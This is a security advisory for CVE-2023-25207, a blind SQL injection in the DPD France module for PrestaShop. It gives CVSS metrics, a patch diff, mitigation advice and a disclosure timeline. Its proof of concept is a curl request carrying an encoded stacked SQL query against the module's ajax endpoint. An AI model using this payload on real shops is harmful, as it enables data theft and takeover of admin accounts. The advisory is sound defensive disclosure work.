```yaml
---
layout: post
title: "[CVE-2023-25207] Multiple improper neutralization of SQL parameters in DPD France module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,dpdfrance"
severity: "critical (9.8)"
---
```


In the module "DPD France" (dpdfrance) for PrestaShop, a remote attaker can perform a blind SQL injection in affected versions. Release 6.1.3 fixed vulnerabilities.

## Summary

* **CVE ID**: [CVE-2023-25207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
* **Published at**: 2023-03-09
* **Advisory source**: Friends-of-Presta.org
* **Vendor**: PrestaShop
* **Product**: dpdfrance
* **Impacted release**: < 6.1.3
* **Product author**: DPD France SAS
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

In dpdfrance module for PrestaShop up to 6.1.3, multiple sensitives SQL calls in method `dpdfrance::ajaxSetAddressOrder()` can be executed with a trivial http call and exploited to forge a bind SQL injection.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -X POST -d 'action_ajax_dpdfrance=setAddressOrder&order=1%27;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://domain.tld/modules/dpdfrance/ajax.php?dpdfrance_token=EXPOSED_TOKEN_ON_FRONT_OFFICE'
```

## Patch

```diff
--- a/dpdfrance/dpdfrance.php
+++ b/dpdfrance/dpdfrance.php
@@ -977,7 +977,7 @@ class DPDFrance extends CarrierModule
     public function ajaxSetAddressOrder($param)
     {
         $dpdOrder = $this->getDpdOrder($param['order']);
-        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . (string)$param['street'] . "', override_return_zip = '" . (string)$param['zip'] . "', override_return_city = '" . (string)$param['city'] . "', override_return_phone = '" . (string)$param['phone'] . "' WHERE id_order_dpd = '" . $param['order'] . "';";
+        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . pSQL($param['street']) . "', override_return_zip = '" . pSQL($param['zip']) . "', override_return_city = '" . pSQL($param['city']) . "', override_return_phone = '" . pSQL($param['phone']) . "' WHERE id_order_dpd = '" . pSQL($param['order']) . "';";
         db::getInstance()->execute($sql);
         $response = ['update' => true];
         $response = json_encode($response);
```

## Other recommandations

**WARNING** Be aware that the version 6.1.3 come with a new sensible problem so you must stay in alert to apply without delay future versions.

* It’s recommended to upgrade the module beyond 6.1.3.
* For PrestaShop 1.6, you need to apply the patch manually.
* Upgrade PrestaShop beyond 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2022-12-05 | Issue discovered during a code review by 202 Ecommerce and TouchWeb |
| 2022-12-05 | Contact the author |
| 2022-12-20 | Never received a response from the author |
| 2022-12-20 | Contact PrestaShop Addons Team |
| 2023-01-27 | Fix published on addons PrestaShop marketplace for PrestaShop 1.7+ only |
| 2023-01-28 | Request a CVE ID |
| 2023-03-09 | Publication of this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/shipping-carriers/19414-dpd-france-delivery.html)
* [DPD France module page](https://www.dpd.com/fr/fr/faq/prestashop/)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
